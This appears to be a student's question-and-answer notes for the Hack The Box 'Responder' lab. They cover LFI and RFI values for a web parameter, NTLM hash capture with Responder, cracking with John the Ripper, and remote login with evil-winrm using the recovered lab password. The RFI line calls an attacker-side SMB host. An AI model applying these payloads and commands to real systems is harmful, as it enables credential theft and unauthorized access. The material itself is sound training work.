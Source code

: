 ```yaml
---
title: responder
draft: false
tags:
  - example-tag
---
```

1. When visiting the web service using the IP address, what is the domain that we are being redirected to?
unika.htb

2. Which scripting language is being used on the server to generate webpages?
php 


3. What is the name of the URL parameter which is used to load different language versions of the webpage?
page

4. Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"
`../../../../../../../../windows/system32/drivers/etc/hosts`

5. Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"
`//10.10.14.6/somefile`

6. What does NTLM stand for?
new technology LAN manager

3. Which flag do we use in the Responder utility to specify the network interface?
`-I`

`sudo responder -I tun0 -v`
4. There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?.
john the ripper

5. What is the password for the administrator user?
`badminton`


`sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

6. We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?
5985

`sudo evil-winrm -i 10.129.162.155 -u Administrator -p badminton`

